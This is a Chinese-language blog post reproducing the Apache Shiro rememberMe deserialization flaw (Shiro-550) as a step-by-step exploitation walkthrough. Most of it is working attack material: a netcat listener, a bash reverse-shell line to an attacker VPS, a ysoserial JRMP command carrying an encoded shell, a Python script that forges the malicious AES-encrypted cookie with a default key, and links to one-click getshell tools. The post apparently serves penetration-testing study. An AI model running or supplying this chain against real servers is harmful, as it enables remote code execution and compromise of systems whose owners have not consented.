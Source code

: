 ```yaml
---
title: Shiro rememberMe反序列化漏洞(Shiro-550)复现
top: false
cover: https://image.geoer.cn/shiro1.jpg
categories:
- 渗透测试
tags:
- Shiro反序列化
- 漏洞复现
abbrlink: 40239
date: 2020-11-13 14:02:25
keywords:
summary:
img:
password:
---
```


### 漏洞原理

Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。在服务端对rememberMe的cookie值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
**Payload产生的过程：**
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
在整个漏洞利用过程中，比较重要的是AES加密的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了,Payload构造起来也是十分的简单。

### 影响版本

Apache Shiro < 1.2.4



### 特征判断

返回包中包含`rememberMe=deleteMe`字段



### 演示

> 文中的配图有点不一致，别介意，环境问题



#### 系统界面如图

<img src="https://image.geoer.cn/shiro1.jpg"></img>



#### 抓包查看

可以看到是Shiro

<img src="https://image.geoer.cn/shiro2.jpg"></img>

#### 1.检查是否存在默认的key

工具链接：https://github.com/insightglacier/Shiro_exploit

```bash
python shiro_exploit.py -u http://<IP>:7080
```

检测的key保存下来一会用



#### 2.制作反弹shell代码

2.1 vps监听端口

```bash
nc -lvvp 7788
```

<img src="https://image.geoer.cn/shiro3.jpg"></img>

2.2 Java Runtime 配合 bash 编码，
在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html

```bash
bash -i >& /dev/tcp/202.xx.xx.xx/7788 0>&1	# ip为攻击机的地址
```

<img src="https://image.geoer.cn/shiro4.jpg"></img>

#### 3.通过ysoserial中JRMP监听模块，监听6666端口并执行反弹shell命令

上一步的反弹shell的命令编码结果写到下面

```bash
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections6 'bash -c {echo,YmFzaCAtxxxxxxzYuxxxxxxxxxxxxQ==}|{base64,-d}|{bash,-i}'	# 这里用的CommonsCollections4
```

<img src="https://image.geoer.cn/shiro5.jpg"></img>

#### 4.使用shiro.py 生成Payload

```bash
python shiro.py 122.xx.xx.xx:6666
```

<img src="https://image.geoer.cn/shiro6.jpg"></img>

其中shiro.py代码如下：

```bash
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections6', command], stdout=subprocess.PIPE)	# 这里要注意用哪个JRMPClient
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("fCq+/xW488hMTCD+cmJ3aQ==")	# 这里的key要提前枚举出来
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])   
print "rememberMe={0}".format(payload.decode())


```



#### 5.构造数据包，伪造cookie，发送Payload.

<img src="https://image.geoer.cn/shiro7.jpg"></img>

#### 6.nc监听端口，shell成功反弹

<img src="https://image.geoer.cn/shiro8.jpg"></img>

------



PS：[后来发现这个好用的工具](https://github.com/feihong-cs/ShiroExploit)，一键检测&getshell，好用极了



> 我应该去学学java编程了，看大佬们写的各种工具，羡慕极了